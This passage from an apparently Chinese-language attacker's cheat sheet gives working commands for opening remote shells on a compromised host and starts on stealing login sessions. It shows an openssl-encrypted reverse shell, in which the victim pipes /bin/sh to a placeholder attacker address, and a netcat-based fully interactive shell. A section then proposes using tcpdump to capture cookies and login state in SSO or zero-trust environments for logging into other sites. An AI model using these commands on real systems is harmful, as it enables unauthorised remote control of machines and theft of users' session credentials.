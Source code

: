 ```plain
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

服务端监听：

```css
openssl s_server -quiet -key key.pem -cert cert.pem -port 8888
```

受控端执行：

```ruby
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect yourip:yourport > /tmp/s; rm /tmp/s
```

## 完全交互式shell

attack端执行：

```plain
stty -echo raw; nc -lp 1337; stty sane
```

victim端执行：

```plain
nc -c '/bin/bash -c "script /dev/null"' yourip 1337
```

现在ctrl c也不会退出：  
![image-20201211103704421](assets/1700701638-7766eba1fe95df69854ea6da4966536c.png)

# 登录态

现在越来越多的系统接入SSO、零信任，用户友好度提升了，但是也伴随了大量风险，比如如果单点故障了怎么办。其他安全风险呢？如果我们拿下其中一台可信服务器的权限，是否也伴随着未做隔离的站点也沦为了能快速拿权限的攻击目标？

## tcpdump

tcpdump是一款网络抓包的程序，在SSO、零信任的场景中，我们可以利用它来获取用户的登录态、Cookie等敏感信息，然后利用这些信息去登录其他未做隔离的站点。  
下面是抓取http数据包的命令示例：
